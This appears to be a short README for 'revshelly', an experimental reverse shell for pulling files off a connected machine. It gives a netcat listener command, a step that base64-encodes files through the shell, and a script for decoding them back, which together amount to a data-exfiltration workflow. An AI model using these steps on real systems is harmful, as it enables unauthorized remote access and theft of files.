 revshelly
=========

A reverse shell designed to "borrow" data without using any special client program.

Listen for connections with netcat:

    nc -l -p 8080|tee revshelly.log

Once connected, you can encode files in base 64:

    uu somefile

You can then decode the files with base64_dec.py (you first have to copy the base64 code of each file into a separate text file):

    base64_dec.py infile.txt outfile

As you can probably tell, this is nothing serious, just an experiment.
